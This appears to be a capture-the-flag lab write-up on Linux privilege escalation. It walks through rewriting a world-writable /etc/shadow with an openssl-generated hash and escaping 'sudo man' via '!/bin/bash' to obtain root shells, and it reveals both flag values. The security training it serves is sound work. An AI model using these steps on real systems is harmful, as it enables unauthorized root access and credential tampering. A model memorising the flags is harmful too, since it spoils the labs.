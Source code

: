 # 🔬Linux Privilege Escalation

## Lab 1

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find specific **Linux Privilege escalation vulnerabilities manually**
> - Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration

![](5-post-exploitassets/image-20230429120411574.png)

### Misconfigured Permissions Files

- Look for **world writable files**
  - *Find a file that could help to elevate privileges*

```bash
find / -not -type l -perm -o+w
```

![find / -not -type l -perm -o+w](5-post-exploitassets/image-20230429120640470.png)

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

![](5-post-exploitassets/image-20230429121216978.png)

### Privilege Escalation

- `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password123
	$1$abc$UWUoROXzUCsLsVzI0R2et.

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

![](5-post-exploitassets/image-20230429121433738.png)

- Switch to the `root` user

```bash
su
# type "password123" password for "root" user

cd
ls
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>


`e62ab67ddff744d60cbb6232feaefc4d`

![](5-post-exploitassets/image-20230429121642209.png)

</details>

------

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find **misconfigured `sudo` privileges**

### Local Enumeration

![](5-post-exploitassets/image-20230429120411574.png)

### Misconfigured SUDO Privileges

- Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

![](5-post-exploitassets/image-20230429122610598.png)

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

- Identify what commands the `student` user can run

```bash
sudo -l
```

![](5-post-exploitassets/image-20230429122043004.png)

> ❗ **`/usr/bin/man`** binary can be run ***with `SUDO` privileges, without providing a `root` user password***

- This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks *harmless*, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation

```bash
sudo man ls
```

- In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

![!/bin/bash](5-post-exploitassets/image-20230429123257366.png)

- Retrieve the flag with the **`root`** user



<details>
<summary>Reveal Flag: 🚩</summary>



`74f5cc752947ec8a522f9c49453b8e9a`

![](5-post-exploitassets/image-20230429123424840.png)

</details>

------

